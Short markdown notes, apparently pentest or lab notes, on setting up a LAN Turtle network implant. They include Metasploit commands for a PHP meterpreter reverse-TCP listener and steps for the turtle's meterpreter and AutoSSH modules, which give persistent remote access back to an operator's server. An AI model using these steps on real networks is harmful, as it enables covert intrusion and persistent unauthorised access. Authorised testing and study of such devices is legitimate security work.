 

Network config: 

    /etc/config/network



Module locations:

    /etc/turtle/modules

 to start a module from here: ./<module> start
 
 
 
## Modules


### Meterpreter reverse shell

Setting up listener
 
    msfconsole

    use exploit/multi/handler

    set PAYLOAD php/meterpreter/reverse_tcp

    set LPORT/LHOST
    set ExitOnSession false
    exploit -j

 Set up LAN Turtle

 Configure meterpreter-http with the correct IP and Port.
 
### AutoSSH
  
  Modules: autossh and keymanager
  
  Require VM with SSH server. 
  
    
  On the server create user to run the connection
  
       adduser turtle
       
       systemctl start ssh.service
  
   Use keymanager to generate keys and send the key to the server. (will be under /root/.ssh)
   
    Host: IP of SSH server
    Port: Listening port of SSH server
    User: user that was just created on server
    
  
  
  
  
  
  
  
  
  
  
 
